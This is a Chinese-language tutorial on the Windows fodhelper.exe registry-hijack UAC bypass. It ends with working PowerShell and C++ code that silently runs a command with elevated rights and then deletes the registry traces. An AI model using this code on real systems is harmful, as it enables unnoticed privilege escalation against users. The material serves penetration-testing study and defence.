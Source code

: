 ```yaml
---
description: bypassuac-Fodhelper
---
```


# 基于注册表劫持BypassUAC

## what is UAC？

UAC 是微软在 Windows Vista 以后版本引入的一种安全机制， UAC全称是User Account Control直译为“用户帐户控制”，是微软为提高系统安全而在Windows Vista中引入的新技术，VISTA以后的微软系统中都带有这个功能，如WIN7和WIN8系统中都有，UAC需要用户在执行一些可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员‌密码。

## UAC的作用

通过 UAC，应用程序和任务可始终在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限。UAC 可以阻止未经授权的应用程序自动进行安装，并防止无意中更改系统设置。

* 流程如下: 

![](../.gitbook/assets/uacflowchart.png)

## UAC的实现

Windows操作系统中所有资源都有一个ACL\(Access Control List\)标识了拥有什么权限的用户/进程能够访问这个资源。 在开启了 UAC 之后，如果用户以管理员权限登陆，会生成两份访问令牌，一份是完整的管理员访问令牌（Full Access Token），一份是标准用户令牌\(Access Token\)。一般情况下会以标准用户权限启动 Explorer.exe 进程。在需要使用高完整性令牌时，会提示询问用户，如果用户同意，则继续进行操作。

## what is BypassUAC?

在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。 请求进程将要提升权限的进程的commandline和程序路径通过LPC\(Local Procedure Call\)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。 通常通过UAC的权限提升需要由用户确认，在不被用户发现的情况下静默的将程序的普通权限提升为管理员权限，从而使程序可以实现一些需要权限的操作被称之为BypassUac。

## 基于白名单的BypassUac

有一些系统程序是会直接获取管理员权限同时不出发UAC弹窗的，这类程序被称为白名单程序。 这些程序拥有一个manifest文件该文件本质上是一个XML文件用于标识该程序的配置属性。 拥有autoElevate属性程序和微软签名和白名单会被操作系统认为是可信的。会在启动时就静默提升权限。

## BypassUac实例分析-fodhelper.exe

* 实验环境:

![](../.gitbook/assets/windows-version.png)



使用微软官方提供的sigcheck工具可以检查程序的manifest标识的配置属性，可用于检查是否拥有autoElevate属性。

* 检查程序属性:

![](../.gitbook/assets/autoelevate.png)



使用微软提供的procmon工具可以监控程序进行的注册表和文件操作。

* 使用过滤规则:

![](../.gitbook/assets/filter.png)

使用procmon监控fodhelper的行为数据发现，在启动过程中会查询注册表项HKCU:\Software\Classes\ms-settings\Shell\Open\command，发现路径不存在后继续查询，通常已shell\open\command命名的键值对存储的是可执行文件的路径，如果我们能写入这个键值对，那么在程序启动过程中我们会得到一个已高权限执行的可执行文件，由于该键值对属于HKCU，所以即使是普通用户也能编辑该键值对，那么现在我们就可以已高权限静默执行任意指定文件。

* 具体过程:

![](../.gitbook/assets/processs-mon.png)

如果键值对HKCU:\Software\Classes\ms-settings\shell\open\command存在，fodhelper会查找HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute,若也存在到则读取HKCU:\Software\Classes\ms-settings\shell\open\command的值然后执行。

* 存在DelegateExecute:

![](../.gitbook/assets/delegateexecute.jpg)

* \shell\open\command存在值: 

![](../.gitbook/assets/opencmd.jpg)

* 编码实现: [https://github.com/supersalted/FodhelperBypassUAC](https://github.com/supersalted/FodhelperBypassUAC)
* powershell版本:

  ```text
  [String]$program = "cmd /c start powershell.exe"
  New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
  New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
  Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
  Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
  Start-Sleep 3
  Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
  ```

* c++版本:

```text
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/subsystem:windows /ENTRY:mainCRTStartup")

int main(int argc, char* argv[]) {
    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFOA si = { 0 };
    HKEY hKey;

    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_HIDE;
    RegCreateKeyA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\Shell\\open\\command", &hKey);
    RegSetValueExA(hKey, "", 0, REG_SZ, (LPBYTE)"cmd.exe", strlen("cmd.exe"));
    RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ, (LPBYTE)"", sizeof(""));
    CreateProcessA("C:\\Windows\\System32\\cmd.exe",(LPSTR)"/c C:\\Windows\\System32\\fodhelper.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);
    Sleep(5000);
    RegDeleteTreeA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings");

    return 0;
}
```

* 实现效果:

![](../.gitbook/assets/powershell.png)

## LINKS

{% embed url="https://payloads.online/" %}

{% embed url="https://www.cnblogs.com/Chesky/p/UAC\_Bypass.html" %}

{% embed url="https://docs.microsoft.com/en-us/cpp/security/how-user-account-control-uac-affects-your-application?redirectedfrom=MSDN&view=vs-2019" %}

《windows黑客编程技术详解》 

《windows核心编程第五版》

